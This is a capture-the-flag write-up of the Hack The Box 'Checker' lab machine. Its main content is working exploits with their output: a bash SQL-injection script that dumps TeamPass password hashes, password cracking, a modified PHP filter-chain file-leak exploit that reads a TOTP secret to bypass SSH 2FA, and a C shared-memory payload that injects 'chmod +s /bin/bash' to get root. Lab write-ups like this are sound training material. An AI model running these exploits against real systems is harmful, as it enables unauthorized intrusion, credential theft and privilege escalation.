

```jsx
Machine: Checker
OS: Linux
Status: Season 7 Active Machine
Solved On: 23 th Feb, 2025
Difficulty: Hard 
```

## Ping Test:

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/]
└─$ ping -c 4 10.10.11.56
PING 10.10.11.56 (10.10.11.56) 56(84) bytes of data.
64 bytes from 10.10.11.56: icmp_seq=1 ttl=63 time=244 ms
64 bytes from 10.10.11.56: icmp_seq=2 ttl=63 time=263 ms
64 bytes from 10.10.11.56: icmp_seq=3 ttl=63 time=285 ms
64 bytes from 10.10.11.56: icmp_seq=4 ttl=63 time=353 ms

--- 10.10.11.56 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3002ms
rtt min/avg/max/mdev = 244.473/286.443/353.344/41.229 ms
```

## NMAP Scan:

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/]
└─$ sudo nmap -sV -O 10.10.11.56
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 22:49 PKT
Nmap scan report for 10.10.11.56
Host is up (0.58s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd
8080/tcp open  http    Apache httpd
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/23%OT=22%CT=1%CU=42549%PV=Y%DS=2%DC=I%G=Y%TM=67BB
OS:5FCA%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=Z%TS=C)SEQ(S
OS:P=108%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=1)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI
OS:=Z%II=I%TS=A)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=B)OPS(O1=M53AST1
OS:1NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53
OS:AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T
OS:=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T
OS:2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=16
OS:4%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.75 seconds
```

## Port 8080


The login page is vulnarable to SQLi. 

## Resources:

- [Synk](https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612)
- [GitHub](https://github.com/advisories/GHSA-ppxm-q2h4-v7mm)

Following is the bash exploit that you can use.

```bash
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

RUn the exploit

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/]
└─$ ./exploit.sh http://checker.htb:8080/
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

Crack the password using `JohnTheRipper`

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/]
└─$ john --format=bcrypt --wordlist=/home/kali/opt/rockyou.txt bob.hash
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cheerleader      (bob)
1g 0:00:00:05 100% 0.1845g/s 159.4p/s 159.4c/s 159.4C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now use the creds to login as shown below.


Now here you'll find SSH creds and port 80 creds. We'll use the port 80 creds to login to `BookStack`. SSH is 2FA protected you can't directly login.




## Initial Foothold:

The bookstrack is vulnarable to Incorrect Access Control

### Resources:
- [Github](https://github.com/advisories/GHSA-pj36-fcrg-327j)
- [Synk](https://security.snyk.io/package/composer/ssddanbrown%2Fbookstack)
- [Good Blog](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/)

## Exploit:
- [PHP filter chains exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)

**NOW YOU HAVE TO CREATE A NEW BOOK THEN ADD A NEW PAGE CONSISTING OF SIMPLE HTML CODE THEN CLICK SAVE DRAFT OPTION. YOU HAVE TO CAPTURE THE WHOLE TRAFFIC AT THE BACKEND USING BURPSUITE**


### Editing the exploit:

Replace [this](https://github.com/synacktiv/php_filter_chains_oracle_exploit/blob/main/filters_chain_oracle/core/requestor.py) code from the exploit with the following code.

```python
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re

class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="", headers="{}", verb=Verb.POST, in_chain="", proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = json.loads(headers)
        self.verb = verb
        self.json_input = json_input
        self.match = match
        self.data = data
        self.in_chain = f"|convert.iconv.{in_chain}" if in_chain else ""
        self.delay = float(delay)
        self.proxies = {'http': proxy, 'https': proxy} if proxy else None
        self.instantiate_session()
        
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
        else:
            self.time_based_attack = False

    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False
        self.session.timeout = 10  # Set timeout (in seconds) for each request

    def join(self, *x):
        return '|'.join(x)

    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32] * 15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time

    def parse_parameter(self, filter_chain):
        return {self.parameter: filter_chain}

    def req_with_response(self, s, retries=3, base_delay=1):
        if self.delay > 0:
            time.sleep(self.delay)
        
        import base64
        php_filter = base64.b64encode(f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'.encode()).decode()
        filter_chain = f""
        merged_data = self.parse_parameter(filter_chain)
        
        for attempt in range(retries):
            try:
                if self.verb == Verb.GET:
                    return self.session.get(self.target, params=merged_data)
                elif self.verb == Verb.PUT:
                    return self.session.put(self.target, data=merged_data)
                elif self.verb == Verb.DELETE:
                    return self.session.delete(self.target, data=merged_data)
                elif self.verb == Verb.POST:
                    return self.session.post(self.target, data=merged_data)
            except requests.exceptions.RequestException as e:
                print(f"[Error] Attempt {attempt+1}/{retries} failed: {str(e)}")
                if attempt == retries - 1:
                    print("[-] Could not instantiate a connection after multiple attempts")
                    exit(1)
                time.sleep(base_delay * (2 ** attempt))  # Exponential backoff
        return None

    def error_oracle(self, s):
        requ = self.req_with_response(s)
        if self.match:
            return self.match in requ.text
        if self.time_based_attack:
            return requ.elapsed.total_seconds() > ((self.time_based_attack / 2) + 0.01)
        return requ.status_code == 500
```

After running the exploit you'll see the following output if everything went smoothly.

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/php_filter_chains_oracle_exploit]
└─$ python3 filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/12/save-draft --file '/etc/hosts'
--verb PUT --parameter html --headers '{"Content-Type":"application/x-www-form-urlencoded","X-CSRF-TOKEN":"U8HOxoz7
FLPtHMIzgCF8OgSt92LLbCEYDQPyImY0","Cookie":"XSRF-TOKEN=eyJpdiI6IjFmU3I1d2xUUUlhVkVLTUozWGwveVE9PSIsInZhbHVlIjoiRHpw
SjBTQXdQV3ZGSVFNWHp6QkRITkR6a1ZodmFIYnpqWFVrTG5jWHZGcHNEVmc1TGlheXpKc0pKd1pwYzRBNUtnQjVHSWdQOVhuSGVEcytOc0svbHFTQVl
XU1BPdjM3bjduV1lKeVRpUWhLUVZ2bWVDd1dmTjZ4ZXJmVG1HTlIiLCJtYWMiOiIwMjA5NDA0NDgzODhjYTZjY2NiZGFlODczNmQ1MGYyNDlmMjlkM2
YyNDIwMTk5ZjRhY2Q1ZDhlN2EwMDJjNWE2IiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6InFBS0EzREVtSWxNRlUyWkxuRXVuRUE9PSIs
InZhbHVlIjoiMUhBZjRva3FpaHlJai9kT0h4UlYrZ0VLcFhqTVV4UzVzWlpVR2pBRXZCM0NMWU9xOW1VT1RObGUwT1pJeWE1VlBHQmdONXQ2cmU4L09
RVmM1VVk1cnNqdXFIcW5WL0xwK3NNNnE1c0FmZVozUFRxTVZZRG8xME00d3duc3E1eXUiLCJtYWMiOiIwYWMzNjMyMDRiODNiOWM1MjFlMjcwZGVkOGE
5NDBkNzI5MTE1NGRlODVlN2NkYWZjY2RlYzJmN2Y2NjNkMzU1IiwidGFnIjoiIn0%3D;"}'
MTI3LjAuMC4xI
b'127.0.0.1 '
```

We can see the contents of `/etc/hosts`.

In the web application at `http://checker.htb/books/linux-security/page/basic-backup-with-cp` you'll find this.


While authenticated as Bob in BookStack, navigate to his account settings page, where you’ll find an option to set up two-factor authentication (2FA). Enabling this feature prompts the system to generate and provide backup codes, which can be downloaded as a text file named `backup_codes.txt`. Even without actually enabling 2FA, this process reveals the filename used for storing the codes. Based on this, you can make an educated guess that another user, such as `reader` (as we know from the port 80 creds), might have a similar file stored on their system. A likely location for this file could be `/backup/home_backup/home/reader/backup_codes.txt`, making it a potential target for further investigation. But while looking for SSH 2FA I came across this [setup tutorial](https://goteleport.com/blog/ssh-2fa-tutorial/) so I attempted to read `.google_authenticator` file for the 2FA code as shown below.

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/php_filter_chains_oracle_exploit]
└─$ python3 filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/8/save-draft --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --headers '{"Content-Type":"application/x-www-form-urlencoded","X-CSRF-TOKEN":"fKSPiJtE6jhoMJBXY2orUrgMj9CxtVjxRHu2uYFD","Cookie":"XSRF-TOKEN=eyJpdiI6IjBxb0Y1dHAzb2VNTnNlWW9IZEJneHc9PSIsInZhbHVlIjoiUkp5YUNHQWNuZEdKUTNMZnJoVjRHQWxXUXhqeUZmaGNqUWRST2NEUXdwMHNQWDdZb0hYaW0rcTFjcGpRcG1RT1BsaUNQb1RMbFhSVlNYZE5BZWdqeXRVSWkva0ttSFdDcEtkWHdSTkZ6dkRnUWh2VmNIMGFoVnpCeVRjU2hxbVgiLCJtYWMiOiIxODczZTgyYWNmODc5ODIyY2VmZmQzM2EyNmU5ZTY5Mzc0ZjBhYWI0NTJhYmE1NDJlYzIyY2I3ODg3OTU3YmNhIiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6IjJ5VlRRNkFHTSt4TXkvS0crS091U1E9PSIsInZhbHVlIjoiZnMwK2pFZVJtSnBjNE4rZDJKT3VvcDJZZTVySS9ZQVJLYUczdE9uVm1UQURDVGw5MXhUMTJ5T1l6QXA1Mm9DNWRja1N0d2N5Sm5qQWdOYjJMem5TM1ZjV3ZwUWFteDRtTzd1Njh5ZUR3aUlvYUllMHdkaGx6YkUwbVRSbklya0MiLCJtYWMiOiI2MzQyNGJiM2E0NDk0ZDg3ZTk4N2UzYzMzMGQ4YzZjNTdlOTYxZjM1MTczZDdlZmFmYTU5MDBhZGNkYjhhNThhIiwidGFnIjoiIn0%3D;"}'
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```

We have found the key that genrates the secreat key. Now we'll use [this](https://it-tools.tech/otp-generator) to genrate the OTP.


## User Flag:

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/]
└─$ ssh reader@10.10.11.56
(reader@10.10.11.56) Password: 
(reader@10.10.11.56) Verification code: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

-bash-5.1$ ls
tmp  user.txt
-bash-5.1$ cat user.txt
022f-----------------------------
```

## Privilage Escalation:

```jsx
-bash-5.1$ sudo -l
Matching Defaults entries for reader on checker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User reader may run the following commands on checker:
    (ALL) NOPASSWD: /opt/hash-checker/check-leak.sh *
-bash-5.1$ cat /opt/hash-checker/check-leak.sh
#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"
```

The binaray is vulnarable to buffer overflow. Use the following exploit.

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <time.h>
#include <errno.h>
#include <string.h>

#define SHM_SIZE 0x400
#define SHM_MODE 0x3B6

int main(void) {
    srand((unsigned int)time(NULL));
    key_t key = rand() % 0xfffff;

    printf("Generated key: 0x%X\n", key);

    int shmid = shmget(key, SHM_SIZE, IPC_CREAT | SHM_MODE);
    if (shmid == -1) {
        perror("shmget");
        exit(EXIT_FAILURE);
    }

    char *shmaddr = (char *)shmat(shmid, NULL, 0);
    if (shmaddr == (char *)-1) {
        perror("shmat");
        exit(EXIT_FAILURE);
    }

    snprintf(shmaddr, SHM_SIZE, "Leaked hash by furious > '; chmod +s /bin/bash;#");

    printf("Shared Memory Content:\n%s\n", shmaddr);

    if (shmdt(shmaddr) == -1) {
        perror("shmdt");
        exit(EXIT_FAILURE);
    }

    return 0;
}
```

Running the exploit

```jsx
-bash-5.1$ nano bof.c
-bash-5.1$ gcc -o bof bof.c
-bash-5.1$ while true; do ./test; done
Generated key: 0x4121F
Shared Memory Content:
Leaked hash by furious > '; chmod +s /bin/bash;#
Generated key: 0x4121F
Shared Memory Content:
Leaked hash by furious > '; chmod +s /bin/bash;#
Generated key: 0x4121F
Shared Memory Content:
Leaked hash by furious > '; chmod +s /bin/bash;#
Generated key: 0x4121F
Shared Memory Content:
Leaked hash by furious > '; chmod +s /bin/bash;#
```

#### NOW OPEN ANOTHER TERMINAL AND TYPE IN THE FOLLOWING COMMANDS IN ORDER TO GET THE ROOT

```jsx
-bash-5.1$ sudo /opt/hash-checker/check-leak.sh bob
Password is leaked!
Using the shared memory 0x48A5D as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
-bash-5.1$ bash -p
bash-5.1# whoami
root
```

## Root Flag

```jsx
bash-5.1# cat /root/root.txt
3438-------------------------------
```